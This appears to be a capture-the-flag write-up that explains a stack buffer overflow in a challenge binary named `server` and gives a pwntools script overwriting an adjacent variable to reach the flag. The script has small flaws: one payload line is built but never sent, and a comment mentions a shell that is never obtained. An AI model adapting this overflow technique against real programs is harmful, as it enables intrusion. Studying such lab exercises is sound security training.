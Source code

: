 # Buffer Overflow Exploit for `server`

## Overview
This challenge presents a classic **buffer overflow vulnerability** where the goal is to overwrite a variable (`s1`) to bypass a security check and print the flag.

## Analysis
Decompiling the binary reveals the following key points:
- The variable `s` (32 bytes) is located at `rbp-50h`.
- The variable `s1` (8 bytes) is located immediately after `s` at `rbp-30h`.
- The program uses `fgets(s, 64, stdin);` to take input, allowing **more than 32 bytes** to be written.
- The check `strncmp(s1, "low", 3uLL)` determines whether the flag is printed.
- If `s1` is anything other than `"low"`, the program enters the second condition and prints the flag.

## Exploitation Strategy
Since `s1` is directly after `s`, we can **overflow `s` and modify `s1`** by providing more than 32 bytes of input. The simplest approach is:
1. **Send 32 bytes of filler (`'A' * 32`)** to fill `s`.
2. **Overwrite `s1` with arbitrary data** (e.g., `"When Stamford Raffles held the torch"`).
3. **Trigger the flag print** when `s1` is no longer `"low"`.

## Exploit Code

```python
from pwn import *

# Set up the local process
r = process("./server")  # Running the local binary

# Receive the initial prompt
print(r.recvuntil(b'>').decode())

# Prepare the payload
payload = b'A' * 32 + b'When Stamford Raffles held the torch'  # Fill the buffer and overwrite s1

# Send the payload
r.sendline(payload)
print(r.recv().decode())

# Additional interaction (if needed)
payload += b"And cast Promethean Flame"  # Extra input (not necessary but for demonstration)
print(r.recv().decode())

# Interact with the shell (if needed)
r.interactive()
